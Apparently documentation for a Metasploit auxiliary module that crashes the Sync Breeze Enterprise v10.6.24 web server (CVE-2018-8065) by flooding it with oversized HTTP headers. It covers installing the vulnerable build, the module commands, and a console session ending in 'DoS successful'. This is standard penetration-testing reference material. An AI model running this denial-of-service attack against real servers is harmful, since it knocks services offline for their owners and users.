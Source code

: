 ## Description
This module triggers a Denial of Service vulnerability in the Sync Breeze Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Sync Breeze Enterprise v10.6.24
this software is vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

**Vulnerable Application Link** 
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe

## Vulnerable Application Installation Setup.
Download Application : ```http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/syncbreeze_enterprise_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[*] 192.168.1.27:80 - Checking connection to 192.168.1.27:80
[+] 192.168.1.27:80 - Sync Breeze Enterprise v10.6.24 verified.
[+] 192.168.1.27:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/syncbreeze_enterprise_dos 
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > run

[*] 192.168.1.27:80 - Checking connection to 192.168.1.27:80
[+] 192.168.1.27:80 - Sync Breeze Enterprise v10.6.24 verified.
[*] 192.168.1.27:80 - Sending HTTP DoS packets...
[*] 192.168.1.27:80 - Request size: (6667) byte
[*] 192.168.1.27:80 - Request size: (13990) byte
[*] 192.168.1.27:80 - Request size: (15797) byte
[*] 192.168.1.27:80 - Request size: (20369) byte
[*] 192.168.1.27:80 - Request size: (11119) byte
[*] 192.168.1.27:80 - Request size: (16293) byte
[*] 192.168.1.27:80 - Request size: (13830) byte
...
[+] 192.168.1.27:80 - DoS successful 192.168.1.27 is down !
[*] Auxiliary module execution completed

```